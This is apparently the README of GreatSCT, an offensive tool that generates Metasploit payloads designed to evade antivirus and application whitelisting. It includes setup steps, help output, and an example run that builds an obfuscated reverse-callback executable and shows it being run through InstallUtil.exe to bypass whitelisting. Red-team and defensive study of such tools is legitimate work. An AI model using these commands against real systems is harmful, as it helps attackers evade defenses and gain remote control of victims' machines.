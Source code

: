 # GreatSCT

GreatSCT is a tool designed to generate metasploit payloads that bypass common anti-virus solutions and application whitelisting solutions.

GreatSCT is current under support by @ConsciousHacker

## Software Requirements:

### Linux

1.  Kali - run the setup script - sudo ./setup.sh -c

> NOTE: Support for distributions other than Kali Linux will be coming soon.

## Setup (tl;dr)

> NOTE: Installation must be done with superuser privileges. If you are not using Kali Linux, prepend each command with `sudo` or change to the root user before beginning.

Run `./setup.sh -c` on Linux.

Install by cloning from git, not via apt!

### Quick Install

```bash
apt-get -y install git
git clone https://github.com/GreatSCT/GreatSCT.git
cd GreatSCT/
cd setup
sudo ./setup.sh -c
```

### Regenerating Config

> NOTE: This must be done with superuser privileges. If you are not using Kali Linux, prepend each command with `sudo` or change to the root user before beginning.

Most of the time the config file at `/etc/greatsct/settings.py` will not need to be rebuilt but in some cases you might be prompted to do so. The file is generated by `config/update.py`.

It is important that you are in the config/ directory before executing update.py. If you are not, settings.py will be incorrect and when you launch GreatSCT you will see the following.

```bash
    Main Menu

            0 payloads loaded
```

Don't panic. Enter the config/ dir and re-run update.py.

### Example Usage

GreatSCT's Main Menu:

```===============================================================================
                             GreatSCT | [Version]: 1.0
===============================================================================
      [Web]: https://github.com/GreatSCT/GreatSCT | [Twitter]: @ConsciousHacker
===============================================================================

Main Menu

	1 tools loaded

Available Commands:

	exit			Exit GreatSCT
	info			Information on a specific tool
	list			List available tools
	update			Update GreatSCT
	use			Use a specific tool

Main menu choice: 


```

**Help**
```# ./GreatSCT.py -h
usage: GreatSCT.py [--update] [--version] [--list-tools] [-t Bypass] [--ip IP]
                   [--port Port] [--list-payloads]
                   [-c [OPTION1=value OPTION2=value [OPTION1=value OPTION2=value ...]]]
                   [-o OUTPUT NAME] [-p [PAYLOAD]] [--clean]
                   [--msfoptions [OPTION=value [OPTION=value ...]]]
                   [--msfvenom [windows/meterpreter/reverse_tcp]]

GreatSCT is a framework to generate application whitelisting bypasses.

GreatSCT Options:
  --update              Update the GreatSCT framework.
  --version             Displays version and quits.
  --list-tools          List GreatSCT's tools
  -t Bypass, --tool Bypass
                        Specify GreatSCT tool to use (Bypass)

Callback Settings:
  --ip IP, --domain IP  IP Address to connect back to
  --port Port           Port number to connect to.

[*] Payload Settings:
  --list-payloads       Lists all available payloads for that tool

Great Scott Options:
  -c [OPTION1=value OPTION2=value [OPTION1=value OPTION2=value ...]]
                        Custom payload module options.
  -o OUTPUT NAME        Output file base name for source and compiled
                        binaries.
  -p [PAYLOAD]          Payload to generate. Lists payloads if none specified.
  --clean               Clean out payload folders.
  --msfoptions [OPTION=value [OPTION=value ...]]
                        Options for the specified metasploit payload.
  --msfvenom [windows/meterpreter/reverse_tcp]
                        Metasploit shellcode to generate.
```
**GreatSCT Bypass CLI**
```
# ./GreatSCT.py --ip 192.168.157.136 --port 443 -t Bypass -p installutil/powershell/script.py -c "OBFUSCATION=ascii SCRIPT=/root/script.ps1"
===============================================================================
                                   Great Scott!
===============================================================================
      [Web]: https://github.com/GreatSCT/GreatSCT | [Twitter]: @ConsciousHacker
===============================================================================

 [*] Language: installutil_powershell
 [*] Payload Module: installutil/powershell/script
 [*] Executable written to: /usr/share/greatsct-output/compiled/payload4.exe
 [*] Source code written to: /usr/share/greatsct-output/source/payload4.cs
 [*] Execute with: C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false payload4.exe
#
# file /usr/share/greatsct-output/compiled/payload4.exe
/usr/share/greatsct-output/compiled/payload4.exe: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows
#
```

### Credits
https://github.com/veil-Framework/

### Licensing
This project is licensed under the GNU General Public License v3 license.
